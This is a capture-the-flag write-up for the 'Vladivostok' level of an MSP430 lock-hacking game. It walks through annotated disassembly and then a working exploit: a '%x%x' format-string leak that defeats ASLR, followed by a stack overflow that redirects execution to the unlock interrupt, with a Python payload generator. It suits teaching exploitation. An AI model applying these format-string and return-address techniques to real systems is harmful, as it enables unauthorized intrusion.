





# Vladivostok - 100 points
 
## The idea
ASLR - Address Space Layout Randomization.


## The way

It can be seen by checking a black box that the program expects two inputs. Username and password

</img>
</img>

When you start talking normally, you encounter the following scenario:

</img>

Very traumatic... so there was no choice but to take the pre-run code to a text editor and analyze it statically.

The following code snippet contains the functions relevant to the exercise while explaining in the comments I wrote. Immediately after, the summary of the program will appear, so there is no need to read everything


```arm
4438 <main>
4438:  b012 1c4a      call	#0x4a1c <rand>
443c:  0b4f           mov	r15, r11
443e:  3bf0 fe7f      and	#0x7ffe, r11
4442:  3b50 0060      add	#0x6000, r11
4446:  b012 1c4a      call	#0x4a1c <rand>
444a:  0a4f           mov	r15, r10

; copy the code section to random memory
444c:  3012 0010      push	#0x1000
4450:  3012 0044      push	#0x4400 <__init_stack>
4454:  0b12           push	r11
4456:  b012 e849      call	#0x49e8 <_memcpy>
445a:  3150 0600      add	#0x6, sp

; calculate the address of the new loccation of <aslr_main>
445e:  0f4a           mov	r10, r15
4460:  3ff0 fe0f      and	#0xffe, r15
4464:  0e4b           mov	r11, r14
4466:  0e8f           sub	r15, r14
4468:  3e50 00ff      add	#0xff00, r14
446c:  0d4b           mov	r11, r13
446e:  3d50 5c03      add	#0x35c, r13
4472:  014e           mov	r14, sp ; change also the stack location.
4474:  0f4b           mov	r11, r15
4476:  8d12           call	r13
;-------------------------------------------
4482 <_aslr_main>
4482:  0b12           push	r11
4484:  0a12           push	r10
4486:  3182           sub	#0x8, sp
4488:  0c4f           mov	r15, r12
448a:  3c50 6a03      add	#0x36a, r12  ; r12 = address of new location of printf.
448e:  814c 0200      mov	r12, 0x2(sp) ; insert the printf addr into the top of the stack (after 2 bytes) 
4492:  0e43           clr	r14

; overwrite the code segment
4494:  ce43 0044      mov.b	#0x0, 0x4400(r14)
4498:  1e53           inc	r14
449a:  3e90 0010      cmp	#0x1000, r14
449e:  fa23           jnz	$-0xa <_aslr_main+0x12>

; insert 'Username (8 char max):' to memory in purpose to print it later.
44a0:  f240 5500 0224 mov.b	#0x55, &0x2402 ;U
44a6:  f240 7300 0324 mov.b	#0x73, &0x2403 ;s
44ac:  f240 6500 0424 mov.b	#0x65, &0x2404 ;e
44b2:  f240 7200 0524 mov.b	#0x72, &0x2405 ;r
44b8:  f240 6e00 0624 mov.b	#0x6e, &0x2406 ;n
44be:  f240 6100 0724 mov.b	#0x61, &0x2407 ;a
44c4:  f240 6d00 0824 mov.b	#0x6d, &0x2408 ;m
44ca:  f240 6500 0924 mov.b	#0x65, &0x2409 ;e
44d0:  f240 2000 0a24 mov.b	#0x20, &0x240a ;' '
44d6:  f240 2800 0b24 mov.b	#0x28, &0x240b ;(
44dc:  f240 3800 0c24 mov.b	#0x38, &0x240c ;8
44e2:  f240 2000 0d24 mov.b	#0x20, &0x240d ;' '
44e8:  f240 6300 0e24 mov.b	#0x63, &0x240e ;c
44ee:  f240 6800 0f24 mov.b	#0x68, &0x240f ;h
44f4:  f240 6100 1024 mov.b	#0x61, &0x2410 ;a
44fa:  f240 7200 1124 mov.b	#0x72, &0x2411 ;r
4500:  f240 2000 1224 mov.b	#0x20, &0x2412 ;' '
4506:  f240 6d00 1324 mov.b	#0x6d, &0x2413 ;m
450c:  f240 6100 1424 mov.b	#0x61, &0x2414 ;a
4512:  f240 7800 1524 mov.b	#0x78, &0x2415 ;x
4518:  f240 2900 1624 mov.b	#0x29, &0x2416 ;)
451e:  f240 3a00 1724 mov.b	#0x3a, &0x2417 ;:
4524:  c243 1824      mov.b	#0x0, &0x2418  ; the value 0 for end of the string.
4528:  b240 1700 0024 mov	#0x17, &0x2400 ; put the length of the string before.
452e:  3e40 0224      mov	#0x2402, r14   ; r14 = pointer to the string.

; prints the string abouve
4532:  0b43           clr	r11                     ; r11=0 for INT(0), putchar.
4534:  103c           jmp	$+0x22 <_aslr_main+0xd4>
4536:  1e53           inc	r14                     ; START loop
4538:  8d11           sxt	r13
453a:  0b12           push	r11
453c:  0d12           push	r13
453e:  0b12           push	r11
4540:  0012           push	pc
4542:  0212           push	sr
4544:  0f4b           mov	r11, r15
4546:  8f10           swpb	r15
4548:  024f           mov	r15, sr
454a:  32d0 0080      bis	#0x8000, sr             ; putchar letter by letter "Username (8 char max):"
454e:  b012 1000      call	#0x10
4552:  3241           pop	sr
4554:  3152           add	#0x8, sp
4556:  6d4e           mov.b	@r14, r13
4558:  4d93           tst.b	r13
455a:  ed23           jnz	$-0x24 <_aslr_main+0xb4> ; END loop

; prints '\n'
455c:  0e43           clr	r14                     ; r14=0 for INT(0), putchar.
455e:  3d40 0a00      mov	#0xa, r13
4562:  0e12           push	r14
4564:  0d12           push	r13
4566:  0e12           push	r14
4568:  0012           push	pc
456a:  0212           push	sr
456c:  0f4e           mov	r14, r15
456e:  8f10           swpb	r15
4570:  024f           mov	r15, sr
4572:  32d0 0080      bis	#0x8000, sr             ; putchar('\n').
4576:  b012 1000      call	#0x10
457a:  3241           pop	sr
457c:  3152           add	#0x8, sp

; prints the first '>'
457e:  3d50 3400      add	#0x34, r13 ;                     ; r13=0x3e, char '>'
4582:  0e12           push	r14                              ; r14=0 for INT(0), putchar.
4584:  0d12           push	r13
4586:  0e12           push	r14
4588:  0012           push	pc
458a:  0212           push	sr
458c:  0f4e           mov	r14, r15
458e:  8f10           swpb	r15
4590:  024f           mov	r15, sr
4592:  32d0 0080      bis	#0x8000, sr                      ; putchar('>')
4596:  b012 1000      call	#0x10
459a:  3241           pop	sr
459c:  3152           add	#0x8, sp

; prints the second '>'
459e:  0e12           push	r14                               ; r14=0 for INT(0), putchar.
45a0:  0d12           push	r13                               ; r13=0x3e, char '>'
45a2:  0e12           push	r14
45a4:  0012           push	pc
45a6:  0212           push	sr
45a8:  0f4e           mov	r14, r15
45aa:  8f10           swpb	r15
45ac:  024f           mov	r15, sr
45ae:  32d0 0080      bis	#0x8000, sr                       ; putchar ('>')
45b2:  b012 1000      call	#0x10
45b6:  3241           pop	sr
45b8:  3152           add	#0x8, sp

; get the first user input string
45ba:  3a42           mov	#0x8, r10                        ; how many bytes to read from user.
45bc:  3b40 2624      mov	#0x2426, r11                     ; where to write the new bytes.
45c0:  2d43           mov	#0x2, r13                        ; r13=2 for INT(2), getsn.
45c2:  0a12           push	r10
45c4:  0b12           push	r11
45c6:  0d12           push	r13
45c8:  0012           push	pc
45ca:  0212           push	sr
45cc:  0f4d           mov	r13, r15
45ce:  8f10           swpb	r15
45d0:  024f           mov	r15, sr
45d2:  32d0 0080      bis	#0x8000, sr   ; getsn, 8 bytes into addr 0x2426.
45d6:  b012 1000      call	#0x10
45da:  3241           pop	sr
45dc:  3152           add	#0x8, sp

; printf the user input string and then 'clean the buffer'. (but, why?..)
45de:  c24e 2e24      mov.b	r14, &0x242e  ; put 0 at the end of the user input string (0x2426 + 0x8 = 0x242e)
45e2:  0b12           push	r11           ; r11=0x2426, pointer to user input string.
45e4:  8c12           call	r12           ; printf
45e6:  2153           incd	sp
45e8:  0f4b           mov	r11, r15      ; r15=0x2426, pointer to user input string.
45ea:  033c           jmp	$+0x8 <_aslr_main+0x170>
45ec:  cf43 0000      mov.b	#0x0, 0x0(r15)             ; START loop for 'to zero' the user input string.
45f0:  1f53           inc	r15
45f2:  3f90 3224      cmp	#0x2432, r15
45f6:  fa23           jnz	$-0xa <_aslr_main+0x16a>   ; END loop for 'to zero' the user input string. 

; insert '\nPassword:' to memory in purpose to print it later.
45f8:  f240 0a00 0224 mov.b	#0xa, &0x2402  ;'\n'
45fe:  f240 5000 0324 mov.b	#0x50, &0x2403 ;P
4604:  f240 6100 0424 mov.b	#0x61, &0x2404 ;a
460a:  f240 7300 0524 mov.b	#0x73, &0x2405 ;s
4610:  f240 7300 0624 mov.b	#0x73, &0x2406 ;s
4616:  f240 7700 0724 mov.b	#0x77, &0x2407 ;w
461c:  f240 6f00 0824 mov.b	#0x6f, &0x2408 ;o
4622:  f240 7200 0924 mov.b	#0x72, &0x2409 ;r
4628:  f240 6400 0a24 mov.b	#0x64, &0x240a ;d
462e:  f240 3a00 0b24 mov.b	#0x3a, &0x240b ;:
4634:  c243 0c24      mov.b	#0x0, &0x240c  ; the value 0 for end of the string.
4638:  3e40 0224      mov	#0x2402, r14   ; r14 = pointer to the string.

; prints the string abouve.
463c:  0c43           clr	r12                                ; r12=0 for INT(0), putchar.
463e:  103c           jmp	$+0x22 <_aslr_main+0x1de>
4640:  1e53           inc	r14                                ; START loop
4642:  8d11           sxt	r13
4644:  0c12           push	r12
4646:  0d12           push	r13
4648:  0c12           push	r12
464a:  0012           push	pc
464c:  0212           push	sr
464e:  0f4c           mov	r12, r15
4650:  8f10           swpb	r15
4652:  024f           mov	r15, sr
4654:  32d0 0080      bis	#0x8000, sr                        ; putchar letter by letter "\nPassword:"
4658:  b012 1000      call	#0x10
465c:  3241           pop	sr
465e:  3152           add	#0x8, sp
4660:  6d4e           mov.b	@r14, r13
4662:  4d93           tst.b	r13
4664:  ed23           jnz	$-0x24 <_aslr_main+0x1be>          ; END loop

; prints '\n'
4666:  0e43           clr	r14                                ; r14=0 for INT(0), putchar.
4668:  3d40 0a00      mov	#0xa, r13
466c:  0e12           push	r14
466e:  0d12           push	r13
4670:  0e12           push	r14
4672:  0012           push	pc
4674:  0212           push	sr
4676:  0f4e           mov	r14, r15
4678:  8f10           swpb	r15
467a:  024f           mov	r15, sr
467c:  32d0 0080      bis	#0x8000, sr                       ; putchar('\n').
4680:  b012 1000      call	#0x10
4684:  3241           pop	sr
4686:  3152           add	#0x8, sp

; get the second user input string
4688:  0b41           mov	sp, r11           ; r11=sp
468a:  2b52           add	#0x4, r11         ; r11=sp+4, where user input goes enter to memory.
468c:  3c40 1400      mov	#0x14, r12        ; max chars for input is 0x14 (20) bytes.
4690:  2d43           mov	#0x2, r13         ; r13=2 for INT(2), getsn.
4692:  0c12           push	r12
4694:  0b12           push	r11
4696:  0d12           push	r13
4698:  0012           push	pc
469a:  0212           push	sr
469c:  0f4d           mov	r13, r15
469e:  8f10           swpb	r15
46a0:  024f           mov	r15, sr
46a2:  32d0 0080      bis	#0x8000, sr       ; getsn, 0x14 bytes into where sp is.
46a6:  b012 1000      call	#0x10
46aa:  3241           pop	sr
46ac:  3152           add	#0x8, sp

; check password. note: there is no printf or puts of the password..
46ae:  3d50 7c00      add	#0x7c, r13
46b2:  0c41           mov	sp, r12
46b4:  0c12           push	r12
46b6:  0b12           push	r11
46b8:  0d12           push	r13
46ba:  0012           push	pc
46bc:  0212           push	sr
46be:  0f4d           mov	r13, r15
46c0:  8f10           swpb	r15
46c2:  024f           mov	r15, sr
46c4:  32d0 0080      bis	#0x8000, sr        ; check password. INT(0x7e)
46c8:  b012 1000      call	#0x10
46cc:  3241           pop	sr
46ce:  3152           add	#0x8, sp

; insert 'Wrong!' to memory in purpose to print it later.
46d0:  f240 5700 0224 mov.b	#0x57, &0x2402 ;W
46d6:  f240 7200 0324 mov.b	#0x72, &0x2403 ;r
46dc:  f240 6f00 0424 mov.b	#0x6f, &0x2404 ;o
46e2:  f240 6e00 0524 mov.b	#0x6e, &0x2405 ;n
46e8:  f240 6700 0624 mov.b	#0x67, &0x2406 ;g
46ee:  f240 2100 0724 mov.b	#0x21, &0x2407 ;!
46f4:  c24e 0824      mov.b	r14, &0x2408   ; the value 0 for end of the string.
46f8:  b240 0700 0024 mov	#0x7, &0x2400  ; put the length of the string before.
46fe:  3d40 0224      mov	#0x2402, r13   ; r13 = pointer to the string.

; print the string abouv
4702:  103c           jmp	$+0x22 <_aslr_main+0x2a2>
4704:  1d53           inc	r13
4706:  8c11           sxt	r12
4708:  0e12           push	r14                
470a:  0c12           push	r12
470c:  0e12           push	r14
470e:  0012           push	pc
4710:  0212           push	sr
4712:  0f4e           mov	r14, r15
4714:  8f10           swpb	r15
4716:  024f           mov	r15, sr
4718:  32d0 0080      bis	#0x8000, sr
471c:  b012 1000      call	#0x10
4720:  3241           pop	sr
4722:  3152           add	#0x8, sp
4724:  6c4d           mov.b	@r13, r12
4726:  4c93           tst.b	r12
4728:  ed23           jnz	$-0x24 <_aslr_main+0x282>


472a:  0e43           clr	r14
472c:  3d40 0a00      mov	#0xa, r13
4730:  0e12           push	r14
4732:  0d12           push	r13
4734:  0e12           push	r14
4736:  0012           push	pc
4738:  0212           push	sr
473a:  0f4e           mov	r14, r15
473c:  8f10           swpb	r15
473e:  024f           mov	r15, sr
4740:  32d0 0080      bis	#0x8000, sr
4744:  b012 1000      call	#0x10
4748:  3241           pop	sr
474a:  3152           add	#0x8, sp
474c:  0e41           mov	sp, r14
474e:  2e53           incd	r14
4750:  0e12           push	r14
4752:  3f41           pop	r15
4754:  3152           add	#0x8, sp
4756:  3a41           pop	r10
4758:  3b41           pop	r11
475a:  3041           ret
;-------------------------------------------
475c <aslr_main>
475c:  0e4f           mov	r15, r14
475e:  3e50 8200      add	#0x82, r14
4762:  8e12           call	r14        ; call to the new location of <_aslr_main>
4764:  32d0 f000      bis	#0xf0, sr
4768:  3041           ret
;-------------------------------------------
476a <printf>
476a:  0b12           push	r11
476c:  0a12           push	r10
476e:  0912           push	r9
4770:  0812           push	r8
4772:  0712           push	r7
4774:  0612           push	r6
4776:  0412           push	r4
4778:  0441           mov	sp, r4
477a:  3450 0e00      add	#0xe, r4
477e:  2183           decd	sp
4780:  1a44 0200      mov	0x2(r4), r10
4784:  8441 f0ff      mov	sp, -0x10(r4)
4788:  0f4a           mov	r10, r15
478a:  0e43           clr	r14
478c:  0b3c           jmp	$+0x18 <printf+0x3a>
478e:  1f53           inc	r15
4790:  7d90 2500      cmp.b	#0x25, r13
4794:  0720           jnz	$+0x10 <printf+0x3a>
4796:  6d9f           cmp.b	@r15, r13
4798:  0320           jnz	$+0x8 <printf+0x36>
479a:  1f53           inc	r15
479c:  0d43           clr	r13
479e:  013c           jmp	$+0x4 <printf+0x38>
47a0:  1d43           mov	#0x1, r13
47a2:  0e5d           add	r13, r14
47a4:  6d4f           mov.b	@r15, r13
47a6:  4d93           tst.b	r13
47a8:  f223           jnz	$-0x1a <printf+0x24>
47aa:  0f4e           mov	r14, r15
47ac:  0f5f           add	r15, r15
47ae:  2f53           incd	r15
47b0:  018f           sub	r15, sp
47b2:  0b41           mov	sp, r11
47b4:  0c44           mov	r4, r12
47b6:  2c52           add	#0x4, r12
47b8:  0f41           mov	sp, r15
47ba:  0d43           clr	r13
47bc:  053c           jmp	$+0xc <printf+0x5e>
47be:  af4c 0000      mov	@r12, 0x0(r15)
47c2:  1d53           inc	r13
47c4:  2f53           incd	r15
47c6:  2c53           incd	r12
47c8:  0d9e           cmp	r14, r13
47ca:  f93b           jl	$-0xc <printf+0x54>
47cc:  0c43           clr	r12
47ce:  3640 0900      mov	#0x9, r6
47d2:  0d4c           mov	r12, r13
47d4:  3740 2500      mov	#0x25, r7
47d8:  7b3c           jmp	$+0xf8 <printf+0x166>
47da:  1a53           inc	r10
47dc:  7f90 2500      cmp.b	#0x25, r15
47e0:  1224           jz	$+0x26 <printf+0x9c>
47e2:  1c53           inc	r12
47e4:  4e4f           mov.b	r15, r14
47e6:  8e11           sxt	r14
47e8:  0d12           push	r13
47ea:  0e12           push	r14
47ec:  0d12           push	r13
47ee:  0012           push	pc
47f0:  0212           push	sr
47f2:  0f4d           mov	r13, r15
47f4:  8f10           swpb	r15
47f6:  024f           mov	r15, sr
47f8:  32d0 0080      bis	#0x8000, sr
47fc:  b012 1000      call	#0x10
4800:  3241           pop	sr
4802:  3152           add	#0x8, sp
4804:  653c           jmp	$+0xcc <printf+0x166>
4806:  6e4a           mov.b	@r10, r14
4808:  4e9f           cmp.b	r15, r14
480a:  1020           jnz	$+0x22 <printf+0xc2>
480c:  1c53           inc	r12
480e:  0d12           push	r13
4810:  0712           push	r7
4812:  0d12           push	r13
4814:  0012           push	pc
4816:  0212           push	sr
4818:  0f4d           mov	r13, r15
481a:  8f10           swpb	r15
481c:  024f           mov	r15, sr
481e:  32d0 0080      bis	#0x8000, sr
4822:  b012 1000      call	#0x10
4826:  3241           pop	sr
4828:  3152           add	#0x8, sp
482a:  503c           jmp	$+0xa2 <printf+0x162>
482c:  7e90 7300      cmp.b	#0x73, r14
4830:  1820           jnz	$+0x32 <printf+0xf8>
4832:  2e4b           mov	@r11, r14
4834:  0843           clr	r8
4836:  113c           jmp	$+0x24 <printf+0xf0>
4838:  1c53           inc	r12
483a:  1e53           inc	r14
483c:  8911           sxt	r9
483e:  0812           push	r8
4840:  0912           push	r9
4842:  0812           push	r8
4844:  0012           push	pc
4846:  0212           push	sr
4848:  0f48           mov	r8, r15
484a:  8f10           swpb	r15
484c:  024f           mov	r15, sr
484e:  32d0 0080      bis	#0x8000, sr
4852:  b012 1000      call	#0x10
4856:  3241           pop	sr
4858:  3152           add	#0x8, sp
485a:  694e           mov.b	@r14, r9
485c:  4993           tst.b	r9
485e:  ec23           jnz	$-0x26 <printf+0xce>
4860:  353c           jmp	$+0x6c <printf+0x162>
4862:  7e90 7800      cmp.b	#0x78, r14
4866:  2c20           jnz	$+0x5a <printf+0x156>
4868:  2e4b           mov	@r11, r14
486a:  2942           mov	#0x4, r9
486c:  243c           jmp	$+0x4a <printf+0x14c>
486e:  0f4e           mov	r14, r15
4870:  8f10           swpb	r15
4872:  3ff0 ff00      and	#0xff, r15
4876:  12c3           clrc
4878:  0f10           rrc	r15
487a:  0f11           rra	r15
487c:  0f11           rra	r15
487e:  0f11           rra	r15
4880:  069f           cmp	r15, r6
4882:  0438           jl	$+0xa <printf+0x122>
4884:  084f           mov	r15, r8
4886:  3850 3000      add	#0x30, r8
488a:  033c           jmp	$+0x8 <printf+0x128>
488c:  084f           mov	r15, r8
488e:  3850 5700      add	#0x57, r8
4892:  0d12           push	r13
4894:  0812           push	r8
4896:  0d12           push	r13
4898:  0012           push	pc
489a:  0212           push	sr
489c:  0f4d           mov	r13, r15
489e:  8f10           swpb	r15
48a0:  024f           mov	r15, sr
48a2:  32d0 0080      bis	#0x8000, sr
48a6:  b012 1000      call	#0x10
48aa:  3241           pop	sr
48ac:  3152           add	#0x8, sp
48ae:  0e5e           add	r14, r14
48b0:  0e5e           add	r14, r14
48b2:  0e5e           add	r14, r14
48b4:  0e5e           add	r14, r14
48b6:  3953           add	#-0x1, r9
48b8:  3993           cmp	#-0x1, r9
48ba:  d923           jnz	$-0x4c <printf+0x104>
48bc:  2c52           add	#0x4, r12
48be:  063c           jmp	$+0xe <printf+0x162>
48c0:  7e90 6e00      cmp.b	#0x6e, r14
48c4:  0320           jnz	$+0x8 <printf+0x162>
48c6:  2f4b           mov	@r11, r15
48c8:  8f4c 0000      mov	r12, 0x0(r15)
48cc:  2b53           incd	r11
48ce:  1a53           inc	r10
48d0:  6f4a           mov.b	@r10, r15
48d2:  4f93           tst.b	r15
48d4:  8223           jnz	$-0xfa <printf+0x70>
48d6:  1144 f0ff      mov	-0x10(r4), sp
48da:  2153           incd	sp
48dc:  3441           pop	r4
48de:  3641           pop	r6
48e0:  3741           pop	r7
48e2:  3841           pop	r8
48e4:  3941           pop	r9
48e6:  3a41           pop	r10
48e8:  3b41           pop	r11
48ea:  3041           ret
;-------------------------------------------
48ec <_INT>
48ec:  1e41 0200      mov	0x2(sp), r14
48f0:  0212           push	sr
48f2:  0f4e           mov	r14, r15
48f4:  8f10           swpb	r15
48f6:  024f           mov	r15, sr
48f8:  32d0 0080      bis	#0x8000, sr
48fc:  b012 1000      call	#0x10
4900:  3241           pop	sr
4902:  3041           ret
```
### Summary of program operation: ###
* Function `main`:
    * copies the code segment to a random location in memory
    * also moves the stack locaion to a random location
    * call to `aslr_main`

* Function `aslr_main`:
    * calls to `_aslr_main`
    * it means that there is return value here on the stack. ⚠️

* Function `_aslr_main`:
    * push something with 0x4 bytes to the stack
    * allocate 0x8 bytes on the stack
        * so from the top of the stack until the return value there is 0xc bytes.
    * insert new location of `printf` address 2 bytes after the top of the stack ⚠️
    * overwrite the original code section.
    * get the username
        * to the fixed address #0x2426
    * prints the username
        * using `printf`
    * get the password
        * up to 0x14 bytes.
        * insert to address that is 4 bytes after the head of the stack
        * so from the address of password until the return value there is (0xc - 0x4 =) 0x8 bytes. ⚠️
    * check the password
        * allways fail
    * anyway, print "wrong"

### How to exploit: ###

We will put together what we know and pay attention to ⚠️:
* In the password input we can overwrite the return address to `aslr_main`
     * password[0x8] & password[0x9] will be the address for `INT'
     * password[0xc] & password[0xd] will be the value 0x007f to open the door.
* But because of ASLR, we don't know the current address of `_INT`.
* So we will notice that looking at the stack, just before the call to `printf` for the username:
     * the address of `printf` sits 2 bytes from the top of the stack just before calling it.
     * we can exploit the weakness of `printf` as in previous challenges and print to the user the address of `printf` using the string `%x%x`
* When we have in hand the address of `printf` we can easily calculate the address of `_INT`
     * because the original functions are copied to memory in the same order.

**Summary of the hacking process:**
* Insert the string '%x%x' as username:

    ```python
    b'%x%x'.hex()
    ```
* Extract the address of `printf` from the output.
* Calc the `_INT` address by the original distance between them
    ```python
    original__INT = 0x48ec
    original_printf = 0x476a
    curr_printf = # complete this part according to the previous step  
    print("address of _INT:", hex(curr_printf + (original__INT - original_printf)))
    ```
* so if `curr_INT` is a var that contains the address of `_INT` as hexadecimal (according to little endian and without '0x'),
so this will be the second input that cracks this challnge:
    ```python
    '00' * 0x8 + curr__INT + '0000' + '7f00'
    ```

**Illustration:**

Inserting the input `25782578` as username, tells us the current address of `printf`:

</img>

* address of `printf` for now is 0x8c5c

So, this is the address of `_INT`: 0x8dde
* 0x8c5c + (0x48ec - 0x476a) = 0x8dde

Therefore, all that remains is to insert the following input as pasword: `0000000000000000 de8d 0000 7f00`

</img>

Drop the mic.


## The cracking input (as bytes)
```
25782578
```
Extract the `printf` address after the first input, and run this python code to generate the second input:

```python
def generate_malicious_input(curr_printf):
    original__INT = 0x48ec
    original_printf = 0x476a
    curr__INT = curr_printf + (original__INT - original_printf)
 
    # remove the '0x'
    curr__INT = hex(curr__INT)[2:]
 
    # remember the little endian...
    curr__INT = curr__INT[2:] + curr__INT[:2]
 
    return '00' * 0x8 + ' ' + curr__INT + ' 0000 7f00'

generate_malicious_input(int(input("\nEnter printf address: (0x____)\n"), 16))
```
